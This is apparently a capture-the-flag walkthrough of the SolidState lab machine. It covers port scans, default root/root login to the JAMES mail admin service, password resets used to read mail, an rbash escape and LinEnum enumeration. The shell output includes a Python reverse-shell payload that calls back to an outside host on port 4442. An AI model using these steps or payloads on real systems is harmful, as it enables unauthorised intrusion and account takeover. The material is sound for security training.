

#### SolidState

- [Attacker Info]()
- [Nmap Scan]()
- [HTTP Enumeration]()
- [Port 4555]()
- [Restricted shell access]()
- [Shell access with ``bash --noprofile``]()
- [Privilege Escalation]()
- [Bonus - Exploit JAMES smtpd 2.3.2]()

###### Attacker Info

```sh
root@kali:~/solidstate# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 1791401  bytes 391203245 (373.0 MiB)
        RX errors 1  dropped 0  overruns 0  frame 0
        TX packets 2669840  bytes 368639882 (351.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3120  bytes 4414595 (4.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3120  bytes 4414595 (4.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::c643:2e07:b80:7cfe  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 1770476  bytes 292654583 (279.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2657771  bytes 187651458 (178.9 MiB)
        TX errors 0  dropped 3985 overruns 0  carrier 0  collisions 0

root@kali:~/solidstate#
```

###### Nmap Scan

```sh
root@kali:~/solidstate# nmap -sV -sC -oA solidstate.nmap 10.10.10.51

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-27 13:50 EST
Nmap scan report for 10.10.10.51
Host is up (0.20s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.8 [10.10.14.8]),
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.98 seconds
root@kali:~/solidstate#
```

```sh
root@kali:~/solidstate# nmap -p- -T5 -oA solidstate_all.nmap 10.10.10.51

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-27 16:11 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (2).
Stats: 0:06:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.25% done; ETC: 16:22 (0:05:15 remaining)
Nmap scan report for 10.10.10.51
Host is up (0.19s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

Nmap done: 1 IP address (1 host up) scanned in 722.13 seconds
root@kali:~/solidstate#
```

```sh
root@kali:~/solidstate# grep -oP '\d{1,5}/open' solidstate_all.nmap.gnmap
22/open
25/open
80/open
110/open
119/open
4555/open
root@kali:~/solidstate# grep -oP '\d{1,5}/open' solidstate_all.nmap.gnmap | sort -u > ports.lst
root@kali:~/solidstate# cat ports.lst
110/open
119/open
22/open
25/open
4555/open
80/open
root@kali:~/solidstate#
```

```
%s/\/ope//g
```



```
%s/n\n/,/g
```


```sh
root@kali:~/solidstate# cat ports.lst
110,119,22,25,4555,80
root@kali:~/solidstate#
```

```sh
root@kali:~/solidstate# nmap -p 110,119,22,25,4555,80 -sC -sV -oA solidstate_open_ports.nmap --script vuln 10.10.10.51

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-27 16:34 EST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.51
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
| smtp-vuln-cve2010-4344:
|_  The SMTP server is not Exim: NOT VULNERABLE
|_sslv2-drown:
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.51
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.10.51:80/
|     Form id: name
|     Form action: #
|
|     Path: http://10.10.10.51/index.html
|     Form id: name
|     Form action: #
|
|     Path: http://10.10.10.51/#menu
|     Form id: name
|     Form action: #
|
|     Path: http://10.10.10.51/about.html
|     Form id: name
|     Form action: #
|
|     Path: http://10.10.10.51/services.html
|     Form id: name
|     Form action: #
|
|     Path: http://10.10.10.51/#
|     Form id: name
|_    Form action: #
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /README.txt: Interesting, a readme.
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|_http-server-header: Apache/2.4.25 (Debian)
| http-sql-injection:
|   Possible sqli for queries:
|     http://10.10.10.51/assets/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.10.51/assets/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.10.51/assets/js/?C=D%3bO%3dA%27%20OR%20sqlspider
|_    http://10.10.10.51/assets/js/?C=N%3bO%3dD%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
110/tcp  open  pop3        JAMES pop3d 2.3.2
|_sslv2-drown:
119/tcp  open  nntp        JAMES nntpd (posting ok)
|_sslv2-drown:
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.88 seconds
root@kali:~/solidstate#
```

###### HTTP Enumeration


```sh
root@kali:~/solidstate# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.51 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.51/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
=====================================================
/images (Status: 301)
/assets (Status: 301)
=====================================================
root@kali:~/solidstate#
```

###### Port 4555

```sh
root@kali:~/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
admin
Password:
admin
Login failed for admin
Login id:
root
Password:
root
Welcome root. HELP for a list of commands

Unknown command
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mailadmin password
Password for mailadmin reset
setpassword mindy password
Password for mindy reset
```

```sh
apt install thunderbird
```


```
username: mindy
pass: P@55W0rd1!2@
```

###### Restricted shell access

```sh
root@kali:~/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 27 02:02:12 2018 from 10.10.14.20
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-bash: L: command not found
-bash: attributestLjava/util/HashMap: No such file or directory
-bash: L
        errorMessagetLjava/lang/String: No such file or directory
-bash: L
        lastUpdatedtLjava/util/Date: No such file or directory
-bash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipientstLjava/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-bash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-bash: @team.pl>
Message-ID: <570018.0.1516935336300.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.44 ([10.10.14.44])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 1001
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Thu, 25 Jan 2018 21:55:36 -0500 (EST)
Date: Thu, 25 Jan 2018 21:55:36 -0500 (EST)
From: team@team.pl

: No such file or directory
mkfifo: cannot create fifo '/var/tmp/pipe': File exists


^C
-bash: $'\r': command not found
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-bash: L: command not found
-bash: attributestLjava/util/HashMap: No such file or directory
-bash: L
        errorMessagetLjava/lang/String: No such file or directory
-bash: L
        lastUpdatedtLjava/util/Date: No such file or directory
-bash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipientstLjava/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-bash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-bash: @team.pl>
Message-ID: <6334054.1.1516936722520.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.45 ([10.10.14.45])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 307
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Thu, 25 Jan 2018 22:18:42 -0500 (EST)
Date: Thu, 25 Jan 2018 22:18:42 -0500 (EST)
From: team@team.pl

: No such file or directory
-bash: $'\r': command not found
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-bash: L: command not found
-bash: attributestLjava/util/HashMap: No such file or directory
-bash: L
        errorMessagetLjava/lang/String: No such file or directory
-bash: L
        lastUpdatedtLjava/util/Date: No such file or directory
-bash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipientstLjava/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-bash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-bash: @team.pl>
Message-ID: <20910028.2.1516936932623.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.45 ([10.10.14.45])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 241
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Thu, 25 Jan 2018 22:22:12 -0500 (EST)
Date: Thu, 25 Jan 2018 22:22:12 -0500 (EST)
From: team@team.pl

: No such file or directory
-bash: /etc/bash_completion.d/4D61696C313531363933363933323632322D32.Repository.FileStreamStore: line 15: syntax error near unexpected token `('
-bash: /etc/bash_completion.d/4D61696C313531363933363933323632322D32.Repository.FileStreamStore: line 15: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.45",4442));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-bash: L: command not found
-bash: attributestLjava/util/HashMap: No such file or directory
-bash: L
        errorMessagetLjava/lang/String: No such file or directory
-bash: L
        lastUpdatedtLjava/util/Date: No such file or directory
-bash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipientstLjava/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-bash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-bash: @team.pl>
Message-ID: <22181523.3.1516937906469.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.45 ([10.10.14.45])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 808
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Thu, 25 Jan 2018 22:38:26 -0500 (EST)
Date: Thu, 25 Jan 2018 22:38:26 -0500 (EST)
From: team@team.pl

: No such file or directory
-bash: /etc/bash_completion.d/4D61696C313531363933373930363436392D33.Repository.FileStreamStore: line 15: syntax error near unexpected token `('
-bash: /etc/bash_completion.d/4D61696C313531363933373930363436392D33.Repository.FileStreamStore: line 15: `,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.45",4442));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cd bin/
-rbash: cd: restricted
mindy@solidstate:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
usbmux:x:105:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
rtkit:x:106:110:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:108:111::/var/run/dbus:/bin/false
geoclue:x:109:115::/var/lib/geoclue:/bin/false
avahi:x:110:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:111:118:colord colour management daemon,,,:/var/lib/colord:/bin/false
saned:x:112:119::/var/lib/saned:/bin/false
speech-dispatcher:x:113:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
pulse:x:114:120:PulseAudio daemon,,,:/var/run/pulse:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:122:Gnome Display Manager:/var/lib/gdm3:/bin/false
sshd:x:117:65534::/run/sshd:/usr/sbin/nologin
james:x:1000:1000:james:/home/james/:/bin/bash
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
mindy@solidstate:~$
```

###### Shell access with ``bash --noprofile``

```sh
root@kali:~/solidstate# ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls
bin  user.txt
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd bin/
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ ls
cat  env  ls
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$ cd /dev/shm/
```

###### Privilege Escalation

```sh
root@kali:~/solidstate# git clone https://github.com/rebootuser/LinEnum.git
Cloning into 'LinEnum'...
remote: Counting objects: 98, done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 98 (delta 4), reused 8 (delta 4), pack-reused 86
Unpacking objects: 100% (98/98), done.
root@kali:~/solidstate# cd LinEnum/
root@kali:~/solidstate/LinEnum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.51 - - [27/Jan/2018 21:37:49] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget http://10.10.14.8:8000/LinEnum.sh
--2018-01-27 21:38:07--  http://10.10.14.8:8000/LinEnum.sh
Connecting to 10.10.14.8:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 38174 (37K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  37.28K  91.7KB/s    in 0.4s

2018-01-27 21:38:08 (91.7 KB/s) - ‘LinEnum.sh’ saved [38174/38174]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x LinEnum.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./LinEnum.sh -h
./LinEnum.sh: option requires an argument -- h

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com | @rebootuser
# version 0.7

# Example: ./LinEnum.sh -k keyword -r report -e /tmp/ -t

OPTIONS:
-k	Enter keyword
-e	Enter export location
-t	Include thorough (lengthy) tests
-r	Enter report name
-h	Displays this help text


Running with no options = limited scans/no output file
#########################################################
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./LinEnum.sh -t

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = enabled


Scan started at:
Sat Jan 27 21:39:29 EST 2018


### SYSTEM ##############################################
Kernel information:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686 GNU/Linux


Kernel information (continued):
Linux version 4.9.0-3-686-pae (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18) ) #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06)


Specific release information:
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"


Hostname:
solidstate


### USER/GROUP ##########################################
Current user/group info:
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)


Users that have previously logged onto the system:
Username         Port     From             Latest
root             pts/0    10.10.14.2       Sat Dec 23 19:21:34 -0500 2017
mindy            pts/1    10.10.14.8       Sat Jan 27 21:34:53 -0500 2018


Who else is logged on:
 21:39:29 up  2:20,  1 user,  load average: 0.04, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
mindy    pts/1    10.10.14.8       21:34    9.00s  0.01s  0.00s /bin/bash ./LinEnum.sh -t


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=105(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=106(rtkit) gid=110(rtkit) groups=110(rtkit)
uid=107(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=108(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=109(geoclue) gid=115(geoclue) groups=115(geoclue)
uid=110(avahi) gid=117(avahi) groups=117(avahi)
uid=111(colord) gid=118(colord) groups=118(colord)
uid=112(saned) gid=119(saned) groups=119(saned),116(scanner)
uid=113(speech-dispatcher) gid=29(audio) groups=29(audio)
uid=114(pulse) gid=120(pulse) groups=120(pulse),29(audio)
uid=115(hplip) gid=7(lp) groups=7(lp)
uid=116(Debian-gdm) gid=122(Debian-gdm) groups=122(Debian-gdm)
uid=117(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(james) gid=1000(osboxes) groups=1000(osboxes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),114(lpadmin),116(scanner)
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:james:/home/james/:/bin/bash
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash


Super user account(s):
root


Are permissions on /home directories lax:
total 16K
drwxr-xr-x  4 root  root    4.0K Aug 22 11:37 .
drwxr-xr-x 22 root  root    4.0K Jun 18  2017 ..
drwxr-xr-x 16 james osboxes 4.0K Aug 22 10:20 james
drwxr-x---  4 mindy mindy   4.0K Sep  8 17:40 mindy


Files not owned by user but writable by group:
-rwxrwxrwx 1 root root 190 Jan 27 19:26 /opt/tmp.py
--w--w--w- 1 root root 0 Jan 27 21:39 /sys/fs/cgroup/memory/cgroup.event_control


World-readable files within /home:
-rw-r--r-- 1 root root 0 Aug 22 13:41 /home/mindy/.bash_logout
-rw-r--r-- 1 root root 0 Aug 22 13:41 /home/mindy/.bash_history
-rw-r--r-- 1 root root 1001 Aug 22 13:41 /home/mindy/.bashrc
-rw-r--r-- 1 root root 338 Aug 22 13:59 /home/mindy/.bash_profile
-rw-r--r-- 1 james osboxes 220 Jun 18  2017 /home/james/.bash_logout
-rw-r--r-- 1 james osboxes 0 Jun 18  2017 /home/james/.local/share/gnome-settings-daemon/input-sources-converted
-rw-r--r-- 1 james osboxes 21679 Aug 22 10:20 /home/james/.local/share/xorg/Xorg.0.log
-rw-r--r-- 1 james osboxes 21678 Jun 18  2017 /home/james/.local/share/xorg/Xorg.0.log.old
-rw-r--r-- 1 james osboxes 675 Jun 18  2017 /home/james/.profile
-rw-r--r-- 1 james osboxes 3526 Jun 18  2017 /home/james/.bashrc


Home directory contents:
total 28K
drwxr-x--- 4 mindy mindy 4.0K Sep  8 17:40 .
drwxr-xr-x 4 root  root  4.0K Aug 22 11:37 ..
-rw-r--r-- 1 root  root     0 Aug 22 13:41 .bash_history
-rw-r--r-- 1 root  root     0 Aug 22 13:41 .bash_logout
-rw-r--r-- 1 root  root   338 Aug 22 13:59 .bash_profile
-rw-r--r-- 1 root  root  1001 Aug 22 13:41 .bashrc
drwxr-x--- 2 mindy mindy 4.0K Aug 22 13:45 bin
-rw------- 1 root  root     0 Aug 22 13:41 .rhosts
-rw------- 1 root  root     0 Aug 22 13:41 .shosts
drw------- 2 root  root  4.0K Aug 22 13:41 .ssh
-rw------- 1 mindy mindy   33 Sep  8 17:40 user.txt


Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
 Environment information:
SSH_CONNECTION=10.10.14.8 41434 10.10.10.51 22
LANG=en_US.UTF-8
OLDPWD=/home/mindy/bin
XDG_SESSION_ID=57
USER=mindy
PWD=/dev/shm
HOME=/home/mindy
LC_CTYPE=en_US.UTF-8
SSH_CLIENT=10.10.14.8 41434 22
SSH_TTY=/dev/pts/1
MAIL=/var/mail/mindy
TERM=xterm-256color
SHELL=/bin/rbash
SHLVL=3
LOGNAME=mindy
